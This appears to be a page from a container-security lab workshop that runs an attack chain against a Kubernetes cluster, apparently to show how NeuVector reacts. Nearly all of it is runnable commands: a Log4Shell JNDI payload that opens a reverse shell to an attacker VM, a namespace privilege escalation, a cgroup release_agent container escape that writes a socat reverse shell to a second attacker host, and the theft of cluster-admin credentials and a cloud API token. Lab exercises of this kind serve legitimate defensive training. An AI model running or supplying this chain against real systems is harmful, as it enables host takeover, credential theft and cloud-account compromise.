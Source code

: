 +++
title = "Run attack again"
weight = 17
+++

Ensure, that you have a fresh shell on both attacker01 and attacker02. Cancel running processes with Ctrl+C.

Then open nc on **attacker 01**

```ctr:
sudo nc -lvnp 443
```

And socat on **attacker02**

```ctr:
socat file:`tty`,raw,echo=0 tcp-listen:4445
```

We are going to run the attack again, to see how NeuVector behaves.

Execute the request to trigger the attack:

**Run the following commands on the victim01 VM.**

```ctr
curl http://sample-app.default.${vminfo:victim01:public_ip}.sslip.io/login -d "uname=test&password=invalid" -H 'User-Agent: ${jndi:ldap://${vminfo:attacker01:public_ip}:1389/a}'
```

The attacker01 VM now received a remote shell from the container.

**Run the following commands on the attacker01 VM.**

We can list the container filesystem

```ctr:
ls -la
```

or the running processes

```ctr:
ps auxf
```

Let's try to install kubectl into the container

```ctr:
curl -LO --insecure "https://dl.k8s.io/release/$(curl -L -s --insecure https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

And access the Kubernetes API. This should create an error, because the Pod's ServiceAccount does not have any permissions to access the Kubernetes API:

```ctr:
kubectl get pods
```

Let's try something else and list the Linux capabilities of the container

```ctr:
capsh --print
```

Not that our container does not have `cap_sys_admin` capabilities.

Let's try to change this by exploiting a Kernel vulnerability:

```ctr:attacker01
unshare -UrmC bash
capsh --print
```

Now that we have `cap_sys_admin` capabilities. We can try to exploit another Kernel bug to break out of the container and create a second remote shell from the host system to the attacker02 VM.

Create a new RDMA cgroup

```ctr:
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

Enables cgroup notifications on release of the "x" cgroup

```ctr:
echo 1 > /tmp/cgrp/x/notify_on_release
```

Get the path of the OverlayFS mount for our container

```ctr:
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

Set the release agent to execute `/{overlay_fs_host_path}/cmd` on the host (`/cmd` inside of the container) when the cgroup is released

```ctr:
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Create the command, which will run socat and create a remote shell to the attacker02 VM

```ctr:
echo '#!/bin/bash' > /cmd
echo "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:${vminfo:attacker02:public_ip}:4445" >> /cmd
chmod a+x /cmd
```

Run `echo` in the cgroup, which will directly exit and trigger the release agent cmd (execute `/{overlay_fs_host_path}/cmd`):

```ctr:
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Now we got a remote shell on the attacker02 VM where we are root directly on the victim01 host

**Run the following commands on the attacker02 VM.**

```ctr:
whoami
docker ps
```

Install kubectl

```ctr:
docker cp kubelet:/usr/local/bin/kubectl /usr/bin/
```

Get kubeconfig

```ctr:
kubectl --kubeconfig $(docker inspect kubelet --format '{{ range .Mounts }}{{ if eq .Destination "/etc/kubernetes" }}{{ .Source }}{{ end }}{{ end }}')/ssl/kubecfg-kube-node.yaml get configmap -n kube-system full-cluster-state -o json | jq -r .data.\"full-cluster-state\" | jq -r .currentState.certificatesBundle.\"kube-admin\".config | sed -e "/^[[:space:]]*server:/ s_:.*_: \"https://127.0.0.1:6443\"_" > kubeconfig_admin.yaml

export KUBECONFIG=$(pwd)/kubeconfig_admin.yaml
```

Now we are admin in the Kubernetes cluster

```ctr:
kubectl get pods -A
```

Get the cloud provider token

```ctr:
do_token=$(kubectl get secret -n kube-system digitalocean -o jsonpath="{.data.access-token}" | base64 --decode)
```

Install doctl

```ctr:
cd ~
wget https://github.com/digitalocean/doctl/releases/download/v1.94.0/doctl-1.94.0-linux-amd64.tar.gz
tar xf ~/doctl-1.94.0-linux-amd64.tar.gz
mv ~/doctl /usr/bin
```

Try to log in with the fake token (this will fail):

```ctr:
doctl auth init -t $do_token
```

